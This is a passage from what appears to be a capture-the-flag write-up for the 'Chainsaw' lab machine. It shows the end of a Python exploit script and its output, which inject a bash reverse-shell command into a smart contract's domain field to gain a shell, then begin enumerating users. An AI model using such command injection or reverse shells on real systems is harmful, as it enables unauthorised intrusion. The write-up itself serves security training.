 ```

time.sleep(.5)

try:
    nc.poll()
    nc.wait()
except:
    sys.stdout.write("\r")

print(f"[+] Set domain value back to {contract.functions.getDomain().call()}")

```

```

root@kali# ./chainsaw_shell.py 
[+] Got address over FTP: 0x8Dfbf1e0cFdB8747bedd6c3754674bbedd24A05C.
[+] Got abi over FTP: [{'constant': True, 'inputs': [], 'name': 'getDomain', 'outputs': [{'name': '', 'type': 'string'}], 'payable': False, 'stateMutability': 'view', 'type': 'function'}, {'constant': False, 'inputs': [{'name': '_value', 'type': 'string'}], 'name': 'setDomain', 'outputs': [], 'payable': False, 'stateMutability': 'nonpayable', 'type': 'function'}]
[+] Connected to web3 provider: http://10.10.10.142:9810
[*] Starting listener on port 443
[*] Current domain value is: google.com
[+] Domain value now: google.com; bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'
[*] Sleeping to allow connection
bash: cannot set terminal process group (1527): Inappropriate ioctl for device
bash: no job control in this shell
administrator@chainsaw:/opt/WeaponizedPing$ id
uid=1001(administrator) gid=1001(administrator) groups=1001(administrator)

```

## Priv: administrator –> bobby

### Enumeration

#### Home Directories

In the homedir, there’s no `user.txt`. There is one other user on Chainsaw, bobby, but I don’t have access to that home folder at all:

```

administrator@chainsaw:/opt/WeaponizedPing$ ls -l /home
total 8
drwxr-x--- 8 administrator administrator 4096 Dec 20  2018 administrator
drwxr-x--- 9 bobby         bobby         4096 Jan 23  2019 bobby

```

Still, there are a couple interesting things in administrator’s home folder:
